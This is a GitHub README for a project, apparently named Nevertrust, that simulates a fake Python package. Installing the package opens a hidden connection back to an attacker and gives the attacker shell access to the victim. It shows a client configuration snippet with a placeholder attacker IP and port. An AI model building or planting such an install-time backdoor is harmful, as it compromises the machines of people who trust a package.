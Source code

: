 ![image](https://github.com/ronch11/Nevertrust/assets/71279601/b1a00d58-04b7-4b78-9681-c45a40c7cf02)# Nevertrust

This project Simulates a fake library of python that when the target see the installation of the packets, there is a side channel that open a connection to attacker and give him possible Shellcode attack.
## Installation

You need to install socket and tqdm libraries
```bash
pip install socket tqdm 
```

## Preparations

first you make sure that you insert the correct IP of the attacker in the client file.
```python
SERVER_HOST = "IP_of_attacker"
SERVER_PORT = 5004
BUFFER_SIZE = 1440  # max size of messages, setting to 1440 after experimentation, MTU size
# separator string for sending 2 messages in one go
SEPARATOR = "<sep>
```

# Run
```
pip install socket tqdm 
```

![Uploading image.png…]![צילום מסך 2024-01-25 065406](https://github.com/ronch11/Nevertrust/assets/71279601/dddc57e6-c783-4ba7-b56f-3f23bec7b509)

